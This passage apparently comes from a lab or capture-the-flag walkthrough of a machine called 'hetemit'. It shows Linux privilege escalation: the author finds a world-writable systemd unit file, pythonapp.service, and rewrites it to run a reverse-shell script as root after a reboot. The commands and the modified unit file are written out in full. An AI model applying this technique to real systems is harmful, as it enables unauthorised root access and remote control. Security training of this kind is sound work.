 As we enumerate the system, we'll search for writeable configuration files.

```bash
[cmeeks@hetemit restjson_hetemit]$ find /etc -type f -writable 2> /dev/null
find /etc -type f -writable 2> /dev/null
/etc/systemd/system/pythonapp.service
```

According to this, we can write to **pythonapp.service**, which appears to be some kind of system service. 

Let's check the contents of **pythonapp.service**.

```bash
[cmeeks@hetemit ~]$ cat /etc/systemd/system/pythonapp.service
cat /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=flask run -h 0.0.0.0 -p 50000
TimeoutSec=30
RestartSec=15s
User=cmeeks
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

Perfect. We can modify this file to escalate to root. We'll modify this file to run a reverse shell, then restart the system. Once the system restarts, our shell should run as a system service. Let's modify **pythonapp.service**.

```bash
[cmeeks@hetemit ~]$ cat <<'EOT'> /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
ExecStart=/home/cmeeks/reverse.sh
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
EOT
```
